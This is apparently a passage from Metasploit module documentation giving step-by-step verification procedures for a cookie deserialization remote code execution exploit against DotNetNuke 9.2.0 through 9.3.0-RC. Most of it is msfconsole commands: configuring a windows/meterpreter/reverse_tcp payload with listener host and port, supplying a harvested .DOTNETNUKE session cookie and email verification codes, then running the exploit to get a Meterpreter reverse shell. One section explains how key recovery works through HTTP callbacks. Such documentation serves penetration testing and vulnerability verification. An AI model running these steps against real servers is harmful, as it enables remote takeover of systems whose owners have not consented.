 ### v9.2.0 - v9.2.1
  1. Install the application
  2. Configure the application to use Verified Registration
  3. Configure the application's SMTP server settings so that it will send the registration email
  4. Register a new user account and copy the verification code in the link in the registration email
  5. Log in as the new user and navigate to the Edit Profile page. Note the `userId` url path parameter value
  6. Examine the Edit Profile page's source code and search for a `portalId` value that is a positive integer.
  7. While logged in, examine your cookies using the browser's developer tools or by other means. Copy the value of the `.DOTNETNUKE` cookie value.
  8. Start msfconsole
  9. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  10. Do: ```set RHOST <RHOST>```
  11. Do: ```set RPORT <RPORT>```
  12. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  13. Do: ```set LHOST <LHOST>```
  14. Do: ```set LPORT <LPORT>```
  15. Do: ```set VERIFICATION_CODE <Verification Code>```
  16. Do: ```set VERIFICATION_PLAIN <{portalId}-{userId}>```
  17. Do: ```set ENCRYPTED true```
  18. Do: ```set SESSION_TOKEN <.DOTNETNUKE cookie value>```
  19. Do: ```check```
  20. **Verify** that you are seeing `The target appears to be vulnerable` in the console
  21. Do: ```exploit```
  22. **Verify** that you get a Meterpreter shell
  
### v9.2.2 - 9.3.0-RC
  In these versions, the `userId` value was changed to be a randomly generated GUID. This means that only the first part of the verification plaintext is known. By providing a list of several verification codes, it is possible to reduce the number of potential encryption key values to a feasible amount. Once the list of encryption keys has been reduced, the module will test each key until an HTTP callback is received on port `8080` that indicates which key worked. Then, the final exploit payload will be encrypted using the recovered key and sent to the server, resulting in a shell.
  
  1. Install the application
  2. Configure the application to use Verified Registration
  3. Configure the application's SMTP server settings so that it will send the registration email
  4. Register several new user accounts and note the verification codes in the link in the registration emails
  5. Log in as the new user and navigate to the Edit Profile page.
  6. Examine the Edit Profile page's source code and search for a `portalId` value that is a positive integer
  7. While logged in, examine your cookies using the browser's developer tools or by other means. Copy the value of the `.DOTNETNUKE` cookie value.
  8. Start msfconsole
  9. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  10. Do: ```set RHOST <RHOST>```
  11. Do: ```set RPORT <RPORT>```
  12. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  13. Do: ```set LHOST <LHOST>```
  14. Do: ```set LPORT <LPORT>```
  15. Do: ```set VERIFICATION_CODE <full path to file containing verification codes>```
  16. Do: ```set VERIFICATION_PLAIN <{portalId}->```
  17. Do: ```set ENCRYPTED true```
  18. Do: ```set SESSION_TOKEN <.DOTNETNUKE cookie value>```
  19. Do: ```set TARGET 4```
  20. Do: ```check```
  21. **Verify** that you are seeing `The target appears to be vulnerable` in the console.
  22. Do: ```exploit```
  23. **Verify** that you get a Meterpreter shell 
